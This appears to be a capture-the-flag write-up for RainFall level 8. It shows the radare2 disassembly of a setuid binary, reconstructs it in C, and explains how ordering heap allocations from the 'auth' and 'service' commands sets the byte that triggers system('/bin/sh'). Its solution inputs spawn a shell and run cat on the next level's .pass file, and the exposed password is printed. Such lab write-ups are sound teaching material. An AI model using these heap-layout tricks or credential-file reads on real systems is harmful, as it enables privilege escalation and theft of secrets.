



# Level 8

## Setup
We find a binary file at the root of the user **`level8`** named *`./level8`*.

To analyze the binary file we copy it to our own environment with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level8@localhost:/home/user/level8/level8 .
```

### Radare2

I am running `r2` inside docker.
```bash
docker run -it -v "$bin_file_path":/mnt/binary radare/radare2 bash -c "r2 /mnt/binary"
```

## Binary Analysis

On the `r2` prompt we need to run a couple of commands to analyze the `main` function.
```bash
[0x08048de8]> aaa # Automatically analyze the binary
...
[0x08048ec0]> v # Enter visual mode
```

<p align="center">
   
   
   
</p>

```
0x08048564 ; int __cdecl main(int argc, const char **argv, const char **envp)
0x08048564                 public main
0x08048564 main            proc near               ; DATA XREF: _start+17↑o
0x08048564
0x08048564 argc            = dword ptr  8
0x08048564 argv            = dword ptr  0Ch
0x08048564 envp            = dword ptr  10h
0x08048564
0x08048564 ; __unwind {
0x08048564                 push    ebp
0x08048565                 mov     ebp, esp
0x08048567                 push    edi
0x08048568                 push    esi
0x08048569                 and     esp, 0FFFFFFF0h
0x0804856C                 sub     esp, 0A0h
0x08048572                 jmp     short loc_8048575
0x08048574 ; ---------------------------------------------------------------------------
0x08048574
0x08048574 loc_8048574:                            ; CODE XREF: main+178↓j
0x08048574                                         ; main+196↓j ...
0x08048574                 nop
0x08048575
0x08048575 loc_8048575:                            ; CODE XREF: main+E↑j
0x08048575                 mov     ecx, ds:service
0x0804857B                 mov     edx, ds:auth
0x08048581                 mov     eax, offset aPP ; "%p, %p \n"
0x08048586                 mov     [esp+8], ecx
0x0804858A                 mov     [esp+4], edx
0x0804858E                 mov     [esp], eax
0x08048591                 call    _printf
0x08048596                 mov     eax, ds:stdin@@GLIBC_2_0
0x0804859B                 mov     [esp+8], eax
0x0804859F                 mov     dword ptr [esp+4], 80h
0x080485A7                 lea     eax, [esp+20h]
0x080485AB                 mov     [esp], eax
0x080485AE                 call    _fgets
0x080485B3                 test    eax, eax
0x080485B5                 jz      loc_804872C
0x080485BB                 lea     eax, [esp+20h]
0x080485BF                 mov     edx, eax
0x080485C1                 mov     eax, offset aAuth ; "auth "
0x080485C6                 mov     ecx, 5
0x080485CB                 mov     esi, edx
0x080485CD                 mov     edi, eax
0x080485CF                 repe cmpsb
0x080485D1                 setnbe  dl
0x080485D4                 setb    al
0x080485D7                 mov     ecx, edx
0x080485D9                 sub     cl, al
0x080485DB                 mov     eax, ecx
0x080485DD                 movsx   eax, al
0x080485E0                 test    eax, eax
0x080485E2                 jnz     short loc_8048642
0x080485E4                 mov     dword ptr [esp], 4
0x080485EB                 call    _malloc
0x080485F0                 mov     ds:auth, eax
0x080485F5                 mov     eax, ds:auth
0x080485FA                 mov     dword ptr [eax], 0
0x08048600                 lea     eax, [esp+20h]
0x08048604                 add     eax, 5               # input + 5
0x08048607                 mov     dword ptr [esp+1Ch], 0FFFFFFFFh
0x0804860F                 mov     edx, eax
0x08048611                 mov     eax, 0
0x08048616                 mov     ecx, [esp+1Ch]
0x0804861A                 mov     edi, edx
0x0804861C                 repne scasb
0x0804861E                 mov     eax, ecx
0x08048620                 not     eax
0x08048622                 sub     eax, 1
0x08048625                 cmp     eax, 1Eh
0x08048628                 ja      short loc_8048642
0x0804862A                 lea     eax, [esp+20h]
0x0804862E                 lea     edx, [eax+5]
0x08048631                 mov     eax, ds:auth
0x08048636                 mov     [esp+4], edx
0x0804863A                 mov     [esp], eax
0x0804863D                 call    _strcpy
0x08048642
0x08048642 loc_8048642:                            ; CODE XREF: main+7E↑j
0x08048642                                         ; main+C4↑j
0x08048642                 lea     eax, [esp+20h]
0x08048646                 mov     edx, eax
0x08048648                 mov     eax, offset aReset ; "reset"
0x0804864D                 mov     ecx, 5
0x08048652                 mov     esi, edx
0x08048654                 mov     edi, eax
0x08048656                 repe cmpsb
0x08048658                 setnbe  dl
0x0804865B                 setb    al
0x0804865E                 mov     ecx, edx
0x08048660                 sub     cl, al
0x08048662                 mov     eax, ecx
0x08048664                 movsx   eax, al
0x08048667                 test    eax, eax
0x08048669                 jnz     short loc_8048678
0x0804866B                 mov     eax, ds:auth
0x08048670                 mov     [esp], eax
0x08048673                 call    _free
0x08048678
0x08048678 loc_8048678:                            ; CODE XREF: main+105↑j
0x08048678                 lea     eax, [esp+20h]
0x0804867C                 mov     edx, eax
0x0804867E                 mov     eax, offset aService ; "service"
0x08048683                 mov     ecx, 6
0x08048688                 mov     esi, edx
0x0804868A                 mov     edi, eax
0x0804868C                 repe cmpsb
0x0804868E                 setnbe  dl
0x08048691                 setb    al
0x08048694                 mov     ecx, edx
0x08048696                 sub     cl, al
0x08048698                 mov     eax, ecx
0x0804869A                 movsx   eax, al
0x0804869D                 test    eax, eax
0x0804869F                 jnz     short loc_80486B5
0x080486A1                 lea     eax, [esp+20h]
0x080486A5                 add     eax, 7             # input + 7
0x080486A8                 mov     [esp], eax
0x080486AB                 call    _strdup
0x080486B0                 mov     ds:service, eax
0x080486B5
0x080486B5 loc_80486B5:                            ; CODE XREF: main+13B↑j
0x080486B5                 lea     eax, [esp+20h]
0x080486B9                 mov     edx, eax
0x080486BB                 mov     eax, offset aLogin ; "login"
0x080486C0                 mov     ecx, 5
0x080486C5                 mov     esi, edx
0x080486C7                 mov     edi, eax
0x080486C9                 repe cmpsb
0x080486CB                 setnbe  dl
0x080486CE                 setb    al
0x080486D1                 mov     ecx, edx
0x080486D3                 sub     cl, al
0x080486D5                 mov     eax, ecx
0x080486D7                 movsx   eax, al
0x080486DA                 test    eax, eax
0x080486DC                 jnz     loc_8048574
0x080486E2                 mov     eax, ds:auth
0x080486E7                 mov     eax, [eax+20h]
0x080486EA                 test    eax, eax
0x080486EC                 jz      short loc_80486FF
0x080486EE                 mov     dword ptr [esp], offset aBinSh ; "/bin/sh"
0x080486F5                 call    _system
0x080486FA                 jmp     loc_8048574
0x080486FF ; ---------------------------------------------------------------------------
0x080486FF
0x080486FF loc_80486FF:                            ; CODE XREF: main+188↑j
0x080486FF                 mov     eax, ds:stdout@@GLIBC_2_0
0x08048704                 mov     edx, eax
0x08048706                 mov     eax, offset aPassword ; "Password:\n"
0x0804870B                 mov     [esp+0Ch], edx
0x0804870F                 mov     dword ptr [esp+8], 0Ah
0x08048717                 mov     dword ptr [esp+4], 1
0x0804871F                 mov     [esp], eax
0x08048722                 call    _fwrite
0x08048727                 jmp     loc_8048574
0x0804872C ; ---------------------------------------------------------------------------
0x0804872C
0x0804872C loc_804872C:                            ; CODE XREF: main+51↑j
0x0804872C                 nop
0x0804872D                 mov     eax, 0
0x08048732                 lea     esp, [ebp-8]
0x08048735                 pop     esi
0x08048736                 pop     edi
0x08048737                 pop     ebp
0x08048738                 retn
0x08048738 ; } // starts at 8048564
0x08048738 main            endp
0x08048738
```

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *auth = NULL;
char *service = NULL;

int main(int argc, const char **argv, const char **envp)
{
  char *input;

  while ( 1 )
  {
    printf("%p, %p \n", auth, service);
    if ( !fgets(input, 128, stdin) )
      break;
    if ( !memcmp(input, "auth ", 5u) )
    {
      auth = malloc(4);
      *auth = 0;
      if ( strlen(input + 5) <= 30 )
        strcpy(auth, input + 5);
    }
    if ( !memcmp(input, "reset", 5u) )
      free(auth);
    if ( !memcmp(input, "service", 6u) )
      service = strdup(input + 7);
    if ( !memcmp(input, "login", 5u) )
    {
      if ( auth[32] )
        system("/bin/sh");
      else
        fwrite("Password:\n", 1, 10, stdout);
    }
  }
  return 0;
}
```

This program waits for an input with `fgets` (which allows a buffer of *128*) and compares it with the options: `auth ` (note the space after *auth*), `reset`, `service`, `login`. We can append random characters after the *keywords* and the `cmp` will still work.
The `strcpy` is protected with a `(strlen(input + 5) <= 30 )` so we can't fill the `auth` variable with more than 30 bytes (which we need 32 to execute `system("/bin/sh")`) at initialization.

### Permissions
As we can see in the permissions of the executable file, the binary `./level8` is executed with the privileges of the user **level8**, the owner of the file.
```bash
level8@RainFall:~$ ls -l level8 
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
```

## Reverse Engineer

We can make some tests with the `ltrace` command to see where the `auth ` option and `service` allocates memory:

```
level8@RainFall:~$ ltrace ./level8 
__libc_start_main(0x8048564, 1, 0xbffff724, 0x8048740, 0x80487b0 <unfinished ...>
printf("%p, %p \n", (nil), (nil)(nil), (nil) 
)                                       = 14
fgets(auth 1234567890
"auth 1234567890\n", 128, 0xb7fd1ac0)                             = 0xbffff600
malloc(4)                                                               = 0x0804a008
strcpy(0x0804a008, "1234567890\n")                                      = 0x0804a008
printf("%p, %p \n", 0x804a008, (nil)0x804a008, (nil) 
)                                   = 18
fgets(service1234567890
"service1234567890\n", 128, 0xb7fd1ac0)                           = 0xbffff600
strdup("1234567890\n")                                                  = 0x0804a018
printf("%p, %p \n", 0x804a008, 0x804a0180x804a008, 0x804a018 
)                               = 22
```
The program allocates *16* bytes each time, either with `malloc()` or with `strdup()`.

In our example we have:
- **`auth `**: 0x0804a008
  - It `strcpy` the `&input[5]`.
- **`service`**: 0x0804a018
  - It `strdup` the `&input[7]`.

This is convenient for us, we can modify the `service` variable as a continuation to the `auth ` variable until the *32th* byte.

### Solution

We can finally construct our payload like this:

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service0000000000000000
0x804a008, 0x804a018 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

Or we can even just allocate one more time:

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```